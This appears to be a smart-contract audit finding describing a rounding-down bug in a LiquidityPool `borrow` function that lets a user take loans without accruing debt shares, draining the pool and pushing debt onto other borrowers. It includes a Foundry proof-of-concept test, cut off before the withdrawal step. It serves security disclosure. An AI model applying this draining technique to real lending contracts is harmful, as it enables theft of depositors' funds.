 ## Description

The `borrow` function of the `LiquidityPool` contract calculates the amount of debt shares to credit to the borrower by multiplying the new amount borrowed by the total debt shares and dividing by the total amount borrowed (including interest).

```solidity
File: LiquidityPool.sol

142:         uint newDebtShare = borrows > 0
143:   @>        ? (debtSharesSum * amount) / borrows
144:             : (amount * 10 ** decimals()) / 10 ** poolToken.decimals();
```

In case the `debtShares * amount` is lower than `borrows`, the division will round down to 0 when `amount` is 1. This allows users to borrow tokens without generating debt shares.

A malicious user can borrow all the available tokens in the pool without generating any debt shares and withdraw them, draining the pool. Also, other borrowers in the pool will be credited with the debt of the attacker, so they can be liquidated and lose their collateral.

## Proof of concept

```solidity
function test_debtSharesRoundDown() public {
    uint256 bobInitialWethBalance = WETH.balanceOf(address(bob));

    // Setup
    provideInitialLiquidity();
    vm.startPrank(alice);
    marginTrading.provideERC20(marginAccountID[alice], address(USDC), 10_000e6);
    marginTrading.provideERC20(marginAccountID[alice], address(WETH), 1e18);
    vm.stopPrank();
    vm.startPrank(bob);
    marginTrading.provideERC20(marginAccountID[bob], address(USDC), 10_000e6);
    marginTrading.borrow(marginAccountID[bob], address(WBTC), 100);
    vm.stopPrank();

    // Alice borrows 1 WETH
    vm.prank(alice);
    marginTrading.borrow(marginAccountID[alice], address(WETH), 1e18);

    // Interest accrues over time
    skip(10);

    // Bob borrows 1 wei and is credited 0 debt shares
    vm.prank(bob);
    marginTrading.borrow(marginAccountID[bob], address(WETH), 1);

    // Alice repays debt and interest
    vm.prank(alice);
    marginTrading.repay(marginAccountID[alice], address(WETH), 2e18);

    // Bob borrows huge amount of WETH and is credited 0 debt shares
    for (uint i = 0; i < 20; i++) {
        for (uint j = 0; j < 10; j++) {
            vm.prank(bob);
            marginTrading.borrow(marginAccountID[bob], address(WETH), 10 **i);
        }
    }

    // Bob withdraws all WETH
    uint256 bobAvailableWeth = marginAccount.getErc20ByContract(marginAccountID[bob], address(WETH));
    vm.prank(bob);
```